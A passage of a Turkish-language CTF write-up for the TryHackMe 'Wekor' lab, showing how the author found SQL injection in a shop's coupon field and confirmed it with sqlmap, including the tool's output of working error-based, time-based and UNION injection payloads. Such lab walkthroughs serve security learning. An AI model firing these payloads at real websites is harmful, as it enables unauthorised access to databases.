 ![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/2.png?raw=true)


Neredeyse hepsi 404 veriyor. /comingreallysoon hariç

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/3.png?raw=true)

/it-next'e gittiğimizde websitesi ile karşılaşıyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/4.png?raw=true)

Siteyi incelerken alışveriş sepetinde "Apply Coupon" kısmı mevcut. `' or 1=1` payloadını denedim. Error mesajını okuyarak sqli zafiyeti olduğunu görebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/5.png?raw=true)

Zafiyeti sömürmek için 2 farklı yolumuz var. Payloadları kendim yazabilirim veya sqlmap kullanabilirim. 


Ben kolay yolu tercih ettim :)


Öncelikle burp suite'den isteği yakalamamız gerekiyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/6.png?raw=true)

İsteği yakalayıp wekor.txt dosyasına kaydettim.

Sonrasında SQLMap çalıştırıyorum.

````bash
sqlmap -r wekor.txt
````

````
sqlmap identified the following injection point(s) with a total of 1017 HTTP(s) requests:
---
Parameter: coupon_code (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: coupon_code=' or 1=1 AND GTID_SUBSET(CONCAT(0x71716b6a71,(SELECT (ELT(7514=7514,1))),0x7170627671),7514)-- IGSA&apply_coupon=Apply Coupon

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: coupon_code=' or 1=1 AND (SELECT 9518 FROM (SELECT(SLEEP(5)))FMaw)-- yenf&apply_coupon=Apply Coupon

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: coupon_code=' or 1=1 UNION ALL SELECT NULL,CONCAT(0x71716b6a71,0x6b5a58437758686d734e5166687377454c42436c55444d517a75466f72464a4b7545787048565a71,0x7170627671),NULL-- -&apply_coupon=Apply Coupon
````
